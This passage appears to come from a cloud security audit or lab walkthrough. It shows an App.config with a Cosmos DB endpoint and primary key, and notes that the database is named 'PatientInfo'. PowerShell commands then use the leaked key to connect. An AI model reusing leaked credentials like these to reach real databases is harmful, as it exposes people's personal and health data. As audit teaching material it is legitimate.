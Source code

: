 ```c#
            {
                int? throughput = await this.container.ReadThroughputAsync();
                if (throughput.HasValue)
                {
                    Console.WriteLine("Current provisioned throughput : {0}\n", throughput.Value);
                    int newThroughput = throughput.Value + 100;
                    // Update throughput
                    await this.container.ReplaceThroughputAsync(newThroughput);
                    Console.WriteLine("New provisioned throughput : {0}\n", newThroughput);
                }
            }
            catch (CosmosException cosmosException) when (cosmosException.StatusCode == HttpStatusCode.BadRequest)
            {
                Console.WriteLine("Cannot read container throuthput.");
                Console.WriteLine(cosmosException.ResponseBody);
            }
            
        }
        
    }
}
```
###### `App.config`
```xml
<?xml version="1.0" encoding="utf-8" ?>
<configuration>
  <appSettings>
    <add key="EndpointUri" value="https://backupdbsvc01.documents.azure.com:443/" />
    <add key="PrimaryKey" value="YBvekSUUBqvzpr7sqjfCaOLIIjhTw2haVzDoGWAbpMiG5S4nfNQ4xhxAok8Jl1pkGxNprKXv6bEiACDbrNAGFQ==" />
  </appSettings>
</configuration>
```

- The auditor can leverage the discolsed information to find the following information:
	- CosmosDB instance Endpoint -> `https://backupdbsvc01.documents.azure.com:443/`
	- Connection Key -> `YBvekSUUBqvzpr7sqjfCaOLIIjhTw2haVzDoGWAbpMiG5S4nfNQ4xhxAok8Jl1pkGxNprKXv6bEiACDbrNAGFQ==`
	- Database Id -> `PatientInfo`
	- Container Id -> `PersonalInfo`

- The auditor can utilize the **CosmosDB** PowerShell module to connect to that Cosmos DB instance and query it, using the exfiltrated information.
```powershell
PS C:\Auditor> Import-Module C:\Auditor\CosmosDB\4.5.0\CosmosDB.psd1
PS C:\Auditor> $primaryKey = ConvertTo-SecureString -String "YBvekSUUBqvzpr7sqjfCaOLIIjhTw2haVzDoGWAbpMiG5S4nfNQ4xhxAok8Jl1pkGxNprKXv6bEiACDbrNAGFQ==" -AsPlainText -Force
PS C:\Auditor> $cosmosDbContext = New-CosmosDbContext -Key $primaryKey -Account "backupdbsvc01" -Database "PatientInfo"
```

